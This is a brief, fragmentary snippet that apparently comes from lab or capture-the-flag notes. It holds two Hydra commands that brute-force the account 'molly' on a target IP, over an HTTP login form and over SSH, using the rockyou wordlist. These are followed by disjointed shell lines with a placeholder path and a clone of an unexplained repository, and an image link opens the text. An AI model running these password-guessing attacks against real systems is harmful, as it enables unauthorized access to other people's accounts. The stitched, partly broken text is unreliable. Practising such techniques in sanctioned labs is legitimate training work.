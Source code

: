 hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.87.232 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.87.232 -t 4 ssh

~$ cd /user/???
~$ git clone https://github.com/id8/htm.git